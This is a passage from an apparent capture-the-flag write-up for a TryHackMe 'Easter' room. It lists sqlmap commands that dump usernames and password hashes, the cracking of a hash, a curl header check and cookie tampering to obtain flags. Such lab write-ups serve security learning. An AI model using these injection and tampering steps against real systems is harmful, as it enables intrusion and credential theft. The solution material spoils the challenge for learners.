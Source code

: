 1. Enumerate columns in the `user` table

```bash
sqlmap -r request --dbs --batch -D THM_f0und_m3 -T user --columns
```

![SCREEN11](https://github.com/user-attachments/assets/08b732ee-5033-4287-9ca5-760d75d30f87)

2. Extract username and password data

```bash
sqlmap -r request --dbs --batch -D THM_f0und_m3 -T user --sql-query "select password, username from user"
```

![SCREEN12](https://github.com/user-attachments/assets/201bfb79-4f50-4506-b935-508c0d258666)

3. The password hash **05f3672ba34409136aa71b8d00070d1b** can be cracked using [CrackStation](https://crackstation.net/)

![SCREEN13](https://github.com/user-attachments/assets/49d99851-5718-4d79-aed2-e3ffc6bf334d)

4. Log in at `http://IP/login/` to retrieve the flag

![SCREEN14](https://github.com/user-attachments/assets/23d529c9-9372-4082-a06a-5a33cfa1e56a)

---

### Easter 6

_Look out for the response header._

1. Use `curl` with the `-I` flag to examine the HTTP headers

```bash
curl -I http://IP
```

![SCREEN15](https://github.com/user-attachments/assets/6b12bab3-366c-44d2-acda-d6627eb5f34c)

---

### Easter 7

_Cookie is delicious_

1. Visit `http://IP/` and open the browser's Developer Tools (F12)
   - Navigate to the Storage tab
   - Locate the cookie named "Invited" with a value of "0"
   - Change the cookie value from "0" to "1"
   - Refresh the page to reveal the flag

![SCREEN16](https://github.com/user-attachments/assets/0fba764c-cdc9-445c-b58a-f55a072303e1)

### Easter 8
